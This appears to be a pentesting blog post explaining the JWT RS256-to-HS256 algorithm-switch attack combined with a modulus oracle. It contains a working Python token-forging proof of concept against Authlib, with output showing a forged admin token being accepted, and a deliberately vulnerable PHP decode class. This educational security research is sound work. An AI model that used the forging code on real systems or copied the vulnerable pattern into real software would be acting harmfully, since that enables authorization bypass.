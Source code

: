 ```yaml
---
layout: post
title: "Modulus Oracle & JWT"
author: "RoP Team"
description: "Breaking a vulnerable JWT with a Modulus Oracle"
keywords: "RSA, JWT, crypto, oracle, modulus"
date: 2020-06-21 00:00:00 -0500
categories: pentesting
lang: en
lang-ref: modulus-oracle-part2
---
```


In a [previous post][1] we told about the *Modulus Oracle Attack*. This technique exploits the ability to treat a *modulus error* as an oracle to infer the modulus value and rebuild the public key. Really, it should not be a problem. The public key is public anyway. But in certain cases to know the public key could be very useful. The following case is one of them.

<!--more-->

### JWT and the algorithm switch

[JWT][2] is a widely used technology for authorization in web applications. It allows us create and verify authorization tokens using cryptography to guarantee the token's integrity. However exists vulnerabilities in certain JWT implementations that allows us forge tokens and bypass authorization controls. An attack against some JWT libraries is detailed in [this post][3]. Today all these vulnerabilities should be fixed but it is still possible to find them with the help of a careless developer.

For example, is very easy to screw it up by using the python library [Authlib][4]. The following code shows how the `decode` function accepts in the same way a valid token and a forged one. We have `Authlib 0.14.3` (the latest to date)

```py
from base64 import urlsafe_b64encode as enc
from base64 import urlsafe_b64decode as dec
from Crypto.Hash import HMAC, SHA256
from Crypto.PublicKey import RSA
import json

from authlib.jose import jwt


# Generate a RSA keys pair
private_key = RSA.generate(1024)
public_key = private_key.publickey()

# Generate a valid RS256 signed token
valid_token = jwt.encode(
    {'alg': 'RS256'},
    {'admin': False},
    private_key.export_key()
)
print('VALID TOKEN: {}'.format(valid_token))

# Forging a HS256 signed token
header = enc(json.dumps({'alg': 'HS256'}).encode()).strip(b'=')
body = enc(json.dumps({'admin': True}).encode()).strip(b'=')
signature = enc(HMAC.new(
    public_key.export_key(),
    b'.'.join([header, body]),
    SHA256
).digest()).strip(b'=')
forged_token = b'.'.join([header, body, signature])
print('FORGED TOKEN: {}'.format(forged_token))

# decoding the valid token
data = jwt.decode(valid_token, public_key.export_key())
print('REAL DATA: {}'.format(data))

# decoding the forged token
data = jwt.decode(forged_token, public_key.export_key())
print('FAKE DATA: {}'.format(data))
```

**Output:**
```
VALID TOKEN: b'eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6ZmFsc2V9.eo7MNx1XBcZ5dw_EY4yTLrO0rSGkOODeUBapQ__QTx6NzbnF65Gre2hcRpBOx3Mq24AR4LNnG2Kso2EboeS7qNZbC8fiTxO7YlKufbHoOXy1-p5_31AhuvOewncksvhOb7F5Y0WZX5vmAdKv7MlOSZIlMwRvJaoSRbjqkfEC7Xc'
FORGED TOKEN: b'eyJhbGciOiAiSFMyNTYifQ.eyJhZG1pbiI6IHRydWV9.BlEUBfCRolm91O1gOSXPPSJJkmVXjsfiNY5JwNojdBY'
REAL DATA: {'admin': False}
FAKE DATA: {'admin': True}
```

Write vulnerable code could be a little more harder with other libraries but not impossible.

As you can see, to exploit this vulnerability we need the public key. We can use the public key from the SSL/TLS certificate but there is no guarantee that these keys be the same. So we had the idea to carry out a *Modulus Oracle Attack* to obtain the public key. We have searched for reasonably weak JWT libraries and vulnerable to *Modulus Oracle* and we found one.

### gree/jose

[gree/jose][5] is a JWT library for PHP. Old versions (<=2.2.0) of this library are vulnerable to algorithm switch. The current version (2.2.1) is not vulnerable but with the help of our developer it could be. If we look at [the patch][6] introduced in the current version we will see that HMAC algorithms are disallowed when the signing algorithm is autodetected by the library.  In this way vulnerable code is prevented when lazy coders forget specify the signing algorithm in the `verify` function. But our developer might think that it is a great idea to code his own utility class that autodetects the algorithm and write something like the following:

```php
class JWTUtil {
    function encode($data, $key, $algorithm='HS256') {
        $jwt = new JOSE_JWT($data);
        $jwt = $jwt->sign($key, $algorithm);
        return $jwt->toString();
    }
    
    function decode($token, $key) {
        try {
            $jwt = JOSE_JWT::decode($token);
            $jwt->verify($key, $jwt->header['alg']); // autodetect algorithm
        } catch (Exception $err) {
            return NULL;
        }
        return $jwt->claims;
    }
}
```

> **WARNING:** The previous code is **VULNERABLE** and is placed only for demonstration purposes.

### phpseclib

`gree/jose` internally depends on [phpseclib][7]. It is a library with pure-PHP implementations of cryptographic algorithms. Today the latest release is 2.0.27. If we go through the source code, we will see that the gree/jose's `JWT::verify` method reaches the phpseclib's `RSA::_rsavp1` method. Let's take a look the last one.

Source: [phpseclib github][8]
```php
function _rsavp1($s)
{
    if ($s->compare($this->zero) < 0 || $s->compare($this->modulus) > 0) {
        user_error('Signature representative out of range');
        return false;
    }
    return $this->_exponentiate($s);
}
```

As we can see, this method validates that the signature value (`$s`) is in the range $$[0, N]$$ (with $$N$$ as the modulus). When the signature is out of range, an user error is triggered and displayed on the web page as a **Notice** message. So we have an identifiable behavior to perform a Modulus Oracle attack.

> For errors to be displayed on the web page, the value of PHP's `display_errors` directive must be `On`.

Now we have all the pieces: a vulnerable JWT implementation and a Modulus Oracle. Let's move on to the demo.

### Demo

We have published in our [github repository][9] a vulnerable CTF-like application to demonstrate the described attack. You can try solving it by yourself or see the solution in the script `modulus-oracle-jwt.py`.



Because web applications generally don't show errors, it is unlikely that we can use them to get a Modulus Oracle. But is possible to get a Modulus Oracle in another way.

To be continue...


[1]: https://blog.rop.la/en/pentesting/2020/06/15/modulus-oracle-part1.html
[2]: https://jwt.io/introduction/
[3]: https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries
[4]: https://github.com/lepture/authlib
[5]: https://github.com/nov/jose-php
[6]: https://github.com/nov/jose-php/commit/1cce55e27adf0274193eb1cd74b927a398a3df4b
[7]: https://github.com/phpseclib/phpseclib
[8]: https://github.com/phpseclib/phpseclib/blob/2.0.27/phpseclib/Crypt/RSA.php#L2426
[9]: https://github.com/rop-la/modulus-oracle-jwt